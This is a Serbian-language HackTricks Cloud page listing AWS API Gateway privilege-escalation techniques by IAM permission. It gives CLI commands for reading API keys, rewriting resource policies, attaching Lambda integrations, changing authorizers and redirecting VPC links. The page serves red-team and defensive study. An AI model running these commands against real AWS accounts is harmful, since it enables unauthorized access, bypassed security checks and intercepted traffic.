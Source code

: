 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Za više informacija proverite:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Sa ovom dozvolom možete generisati API ključeve za API-jeve koji su konfigurisani (po regionu).
```bash
aws --region <region> apigateway create-api-key
```
**Potencijalni Uticaj:** Ne možete privesc ovom tehnikom, ali možete dobiti pristup osetljivim informacijama.

### `apigateway:GET`

Sa ovom dozvolom možete dobiti generisane API ključeve API-ja koji su konfigurisani (po regionu).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potencijalni Uticaj:** Ne možete privesc ovom tehnikom, ali možete dobiti pristup osetljivim informacijama.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Sa ovim dozvolama moguće je izmeniti politiku resursa API-ja kako biste sebi omogućili pristup pozivanju i zloupotrebi potencijalnog pristupa koji API gateway može imati (kao što je pozivanje ranjivog lambda). 

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potencijalni uticaj:** Obično nećete moći direktno da izvršite privesc ovom tehnikom, ali možete dobiti pristup osetljivim informacijama.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Potrebno testiranje
{% endhint %}

Napadač sa dozvolama `apigateway:PutIntegration`, `apigateway:CreateDeployment` i `iam:PassRole` može **dodati novu integraciju postojećem API Gateway REST API-ju sa Lambda funkcijom koja ima pridruženu IAM ulogu**. Napadač može zatim **pokrenuti Lambda funkciju da izvrši proizvoljan kod i potencijalno dobije pristup resursima povezanim sa IAM ulogom**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencijalni uticaj**: Pristup resursima povezanim sa IAM ulogom Lambda funkcije.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Potrebno testiranje
{% endhint %}

Napadač sa dozvolama `apigateway:UpdateAuthorizer` i `apigateway:CreateDeployment` može **modifikovati postojeći API Gateway autorizator** kako bi zaobišao bezbednosne provere ili izvršio proizvoljan kod kada se izvrše API zahtevi.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencijalni uticaj**: Obilaženje bezbednosnih provera, neovlašćen pristup API resursima.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Potrebno testiranje
{% endhint %}

Napadač sa dozvolom `apigateway:UpdateVpcLink` može **modifikovati postojeći VPC Link da upućuje na drugi Network Load Balancer, potencijalno preusmeravajući privatni API saobraćaj na neovlašćene ili zlonamerne resurse**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potencijalni uticaj**: Neovlašćen pristup privatnim API resursima, presretanje ili ometanje API saobraćaja.

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
